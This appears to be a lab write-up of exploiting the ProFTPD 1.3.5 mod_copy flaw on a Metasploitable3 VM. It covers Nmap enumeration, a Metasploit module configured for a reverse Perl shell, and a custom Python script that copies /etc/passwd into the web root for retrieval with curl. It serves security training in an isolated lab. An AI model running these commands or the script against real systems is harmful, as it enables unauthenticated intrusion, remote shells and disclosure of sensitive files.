


# Phase 1: Service Compromise
---

##  Task 1.1: Exploiting the Service Using Metasploit

---
##  Step 1: Environment Setup

- **Victim VM**: Metasploitable3
- **Attacker VM**: Kali Linux
- **Network Type**: Host-Only
- **Victim IP**: 192.168.168.129
- **Tool Used**: Metasploit
- **Vulnerable Service To Exploit**: FTP

##  Step 2: Service Enumeration using Nmap

An Nmap scan was performed to identify open services on the victim machine.

### Command:

```bash
nmap -sV 192.168.168.129
```

The scan revealed several open ports, including FTP (ProFTPD 1.3.5) on port 21, which was chosen as the target for this phase.

 


##  Step 3: Identifying the Vulnerable FTP Service

After discovering that port 21 was open and running **ProFTPD 1.3.5**, Metasploit was used to search for known exploits targeting this specific version of the FTP service.

### 🔧 Metasploit Search Command:

```bash
search proftpd type:exploit
```

This returned several results. Among them, the following module was selected as the most suitable for our target:

Module: exploit/unix/ftp/proftpd_modcopy_exec

Rank: Excellent

Description: This exploit leverages the SITE CPFR/CPTO commands provided by the ProFTPD mod_copy module (enabled by default in 1.3.5). It allows remote attackers to copy a malicious PHP file into the web server directory, which can then be executed to obtain a reverse shell.

The danger of this vulnerability lies in the ability to move or duplicate files to web-accessible locations **without requiring any authentication or user permissions**. This allows attackers to expose sensitive files or upload backdoors (e.g., web shells) that can be triggered through the browser, bypassing typical access controls and defenses.




##  Step 4: Exploitation via Metasploit

The following commands were used to exploit the FTP service:

## 🔧 Exploit Configuration

1. **Set the Exploit Module:**

    ```bash
    use exploit/unix/ftp/proftpd_modcopy_exec
    ```

2. **Set the Target Host:**

    ```bash
    set RHOSTS 192.168.168.129
    ```

3. **Set the FTP Port (default 21):**

    ```bash
    set RPORT 21
    ```

4. **Set the Site Path (Web Root):**

    ```bash
    set SITEPATH /var/www/html
    ```

5. **Set the Payload:**

    ```bash
    set payload cmd/unix/reverse_perl
    ```

6. **Set the Attacker's IP (LHOST):**

    ```bash
    set LHOST 192.168.168.128
    ```

7. **Launch the Exploit:**

    ```bash
    exploit
    ```


Result:
* The exploit successfully copied a malicious PHP payload into the web server's root directory.
* Triggering the payload resulted in a reverse shell being established on the attacker's machine.

### Post-Exploitation Verification

Once the reverse shell was successfully established, the following commands were executed to confirm the current access level and working directory:

1. **Check the current user:**
    ```bash
    whoami
    ```

2. **Check the present working directory:**
    ```bash
    pwd
    ```
3. **Check the network configuration:**
    ```bash
    ifconfig
    ```
**Result:**
- **User:** `www-data`
- **Directory:** `/var/www/html`
- **Network Configuration::** eth0      Link encap:Ethernet  HWaddr 00:0c:29:c3:36:e6
          inet addr:192.168.168.129  Bcast:192.168.168.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fec3:36e6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:4799 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1265 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:926496 (926.4 KB)  TX bytes:219157 (219.1 KB)
          



## 🔧 Task 1.2: Custom Script Exploitation (ProFTPD mod_copy)

For this task, a **custom Python script** was created to exploit the same FTP vulnerability (ProFTPD 1.3.5 `mod_copy`) manually — without using Metasploit.

### 🔍 Technical Background

The **ProFTPD 1.3.5** service has a module called `mod_copy` enabled by default. This module introduces two FTP commands:

- `SITE CPFR <file>`: Marks a file to be copied (“Copy From”).
- `SITE CPTO <dest>`: Copies the previously marked file to the destination (“Copy To”).

These commands are processed **without authentication**, meaning an attacker can arbitrarily copy any readable file on the system. This behavior is due to the way the mod_copy module handles file operations internally. It does not enforce user-level permissions for these actions, which violates the principle of least privilege. As a result, even unauthenticated users can copy sensitive files.


In our custom exploit, we used these commands to copy the system password file `/etc/passwd` to the web root folder `/var/www/html/copy.txt`, which allowed us to retrieve it later over HTTP.

- `/etc/passwd` contains a list of all system users and is readable by anyone.
- `/var/www/html` is the default public web directory for Apache in Ubuntu (confirmed running on port 80 via Nmap).

This technique simulates **real-world unauthorized disclosure of sensitive system files** via a misconfigured FTP service.

### 🎯 Objective

Use `SITE CPFR` and `SITE CPTO` FTP commands to copy sensitive system files (e.g., `/etc/passwd`) to a web-accessible directory (`/var/www/html`) and verify access as a proof-of-concept.

### 🧠 Custom Exploit Script

```python
from ftplib import FTP

target_ip = "192.168.168.129"
ftp_port = 21
source_file = "/etc/passwd"
target_file = "/var/www/html/copy.txt"

try:
    print(f"[+] Connecting to FTP on {target_ip}...")
    ftp = FTP()
    ftp.connect(target_ip, ftp_port)

    print("[+] Sending SITE CPFR and CPTO commands...")
    ftp.sendcmd(f"SITE CPFR {source_file}")
    ftp.sendcmd(f"SITE CPTO {target_file}")
    
    print(f"[+] Successfully copied {source_file} to {target_file}!")
    ftp.quit()
except Exception as e:
    print(f"[-] Exploit failed: {e}")
```
### 🖥️ Script Execution
To execute the custom exploit script from the terminal, the following command was run:

**Command:**

```bash
 python3 ftp_modcopy_exploit.py
```
###  Result Output
The script output confirmed that the exploit was successful:
[+] Connecting to FTP on 192.168.168.129...
[+] Sending SITE CPFR and CPTO commands...
[+] Successfully copied /etc/passwd to /var/www/html/copy.txt!


### 🔍 Proof of Concept: Accessing the Copied File

To validate that the `/etc/passwd` file was successfully copied to the web-accessible directory, the following command was used from the attacker's machine:

**Command:**

`curl http://192.168.168.129/copy.txt`

---

### 📄 Retrieved Output

This command returned the contents of the `/etc/passwd` file, confirming the success of the exploit. The file contains a list of all system users.


This file lists all system users and their associated metadata (such as user IDs, home directories, and login shells). While the password fields are typically stored in `/etc/shadow`, the `/etc/passwd` file is still highly valuable to attackers because it:

- Confirms the exploit worked and the file was copied without authentication
- Leaks valid usernames (e.g., `root`, `msfadmin`, `vagrant`, `www-data`)
- Enables user enumeration for future privilege escalation or brute-force attempts

---

###  Conclusion

This demonstrates that a custom Python script — without using Metasploit — can exploit the ProFTPD mod_copy vulnerability to:

- Copy sensitive files from the target (e.g., `/etc/passwd`)
- Serve them publicly via HTTP (`/var/www/html`)
- Retrieve them remotely, confirming the vulnerability

This completes **Task 1.2**.
